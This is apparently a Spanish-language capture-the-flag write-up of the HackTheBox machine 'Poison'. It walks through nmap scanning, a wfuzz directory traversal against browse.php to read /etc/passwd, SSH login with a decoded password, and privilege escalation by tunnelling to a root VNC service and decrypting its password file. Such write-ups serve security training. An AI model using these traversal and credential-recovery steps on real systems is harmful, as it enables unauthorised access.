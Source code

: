 ```yaml
---
layout      : post
title       : "Poison - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Poison-HackTheBox/Poison.webp
category    : [ htb ]
tags        : [ FreeBSD ]
---
```


En esta ocasión estaré resolviendo una máquina de nivel MEDIUM de HackTheBox en la que tendremos que explotar la vulnerabilidad Directory Path Transversal y a través de procesos en ejecución encontraremos el servicio VNC y tendremos que crear un Túnel ssh para acceder al mismo.

![](/assets/images/HTB/Poison-HackTheBox/Poison2.png)


![](/assets/images/HTB/Poison-HackTheBox/Poison-rating.webp)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Sesión SSH](#sesion-ssh).   
    * [SSH](#ssh).
 5. [Escalada de Privilegios](#privesc). 
    * [VNC](#vnc).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Tenemos el puerto 22 (ssh) y el puertto 80 (http)

Escaneo un poco más a fondo para encontrar más información al respecto.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Al acceder desde el navegador para revisar el servidor web vemos lo siguiente:

![](/assets/images/HTB/Poison-HackTheBox/web1.webp)

Si añadimos en el campo el parámetro listfiles.php

![](/assets/images/HTB/Poison-HackTheBox/web2.webp)

Podemos ver que hay un archivo llamado pwdbackup.txt

![](/assets/images/HTB/Poison-HackTheBox/web3.webp)

En el hay una contraseña encodeada en base64 13 veces.

Tras decodear la cadena base64 13 veces encontramos la contraseña.

> Charix!2#4%6&8(0 

Tenemos una contraseña pero aún nos falta un usuario, asique al ver que en el servidor web tenemos muchos archivos .php procedo a comprobar si podría existir alguna vulnerabilidad LFI o Directory Transversal.

A través de un diccionario y la herramienta wfuzz compruebo si existe alguna de estas vulnerabilidades.

> `wfuzz -c -w /usr/share/payloadsallthethings/"Directory Traversal"/Intruder/dotdotpwn.txt -u 'http://10.10.10.84/browse.php?file=FUZZ' --hl=4,2`

![](/assets/images/HTB/Poison-HackTheBox/wfuzz.webp)

Todas esas rutas podríamos usar para leer el archivo passwd.

![](/assets/images/HTB/Poison-HackTheBox/passwd.webp)

Tenemos el usuario Charix y su contraseña.

> Charix:Charix!2#4%6&8(0

Ahora intento loguearme con esas credenciales a través de ssh para obtener acceso al sistema.

# Sesión SSH [#](sesion-ssh) {#sesion-ssh}

----

## SSH [🔥](#ssh) {#ssh}

Una vez nos logueamos podemos leer la flag user.txt 

![](/assets/images/HTB/Poison-HackTheBox/user.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

----

## VNC [👽](vcn) {#vnc}

Ahora toca escalar privilegios para leer la flag root.txt

En el directorio de usuario de Charix tenemos un archivo llamado secret.zip

Nos lo descargamos a nuestra máquina atacante

```bash
❯ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip
```
Y lo descomprimimos usando la contraseña que usamos para conectarnos por ssh (Charix!2#4%6&8(0)

![](/assets/images/HTB/Poison-HackTheBox/secret.webp)

Tenemos caracteres no legibles, lo que me hace pensar que estoy yendo por el camino equivocado.

Dejo a un lado el archivo y enumero más vectores de escalada.

Miro los procesos existentes en ejecución con el comando `ps aux`

> `root   529   0.0  0.9  23620  8872 v0- I    22:34    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -d`

```netstat
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.3.54562       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*                    
Active UNIX domain sockets
```

Tenemos el servicio VNC activo en el puerto 5901, asique para poder conectarme he de crear un tunel a través de ssh.

Para crear el túnel:

> `ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84`

Una vez creado ya puedo conectarme al servicio VNC a través de la herramienta vncviewer.

Podéis descargar la herramienta VNCViewer desde aquí [https://www.realvnc.com/es/connect/download/viewer/linux/](https://www.realvnc.com/es/connect/download/viewer/linux/)

Lo descargo e intento conectarme pero me pide una contraseña, pruebo con la del usuario Charix pero no funciona.

Pruebo introduciendo los datos del archivo secret que unzipeamos pero nada, asique se me ocurre probar con secret (el nombre del archivo).

Pero tampoco hay suerte... asique intento decodificar el contenido del archivo secret.

Encuentro esta herramienta [https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py) 

La consigo decodificar

```vncpass
❯ python2 vncpasswd.py -d -f /home/elc4br4/secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```

Y ya puedo conectarme.

> `vncviewer 127.0.0.1:5901 -passwd VNCP@$$!`

![](/assets/images/HTB/Poison-HackTheBox/vnc.webp)

